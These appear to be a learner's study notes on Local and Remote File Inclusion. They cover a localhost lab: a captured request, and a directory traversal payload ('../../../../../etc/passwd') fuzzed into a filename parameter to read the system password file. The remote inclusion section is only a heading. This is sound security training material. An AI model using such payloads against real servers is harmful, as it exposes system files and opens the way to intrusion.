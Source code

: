 
# ==Introduction to Local and Remote File Inclusion (LFI/RFI)==

LFI -> allows attacker to include file that are already present on the target server
RFI -> allows an attacker to include malicious file from an external location this can often lead to arbitrary code execution on the vulnerable server and essentially giving us an easy way in

It happen because an application is taking input from a user and using that path to a file without properly validating it e.g our application might allow a user to select a language and once a req is sent to a server where language equals German if we don't validate this input properly we might be able to change the input from German to ../../../ to achieve directory traversal allowing us to travel back up to the root dir and then appending etc passwd or etc slash passwd to include passwd file 

# ==Local File Inclusion Attacks==

## [Labs](http://localhost/index.php) / File Inclusion 0x01
url = `http://localhost/labs/fi0x01.php`

Go through and see what the application does
When we select a recipe it fetches the recipe and includes it on the page
Main thing to notice the file name is passed as part of the query string inside the parameter file name
e.g `http://localhost/labs/fi0x01.php?filename=chocolate_cake.txt`

Switch to burp and take a look whats going on 

```python
GET /labs/fi0x01.php?filename=chocolate_cake.txt HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/labs/fi0x01.php?filename=
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Send it to repeater and test it 
Things to look for?
1 -> Target Host Running
e.g Linux -> etc/passwd
select a suitable payload or just fuzz it
e.g ../../../../../etc/passwd
send it to repeater select the area after 
filename= go to payload and select a payload and fuzz it 
and solve the first lab 
==============================================
# ==Remote File Inclusion Attacks==
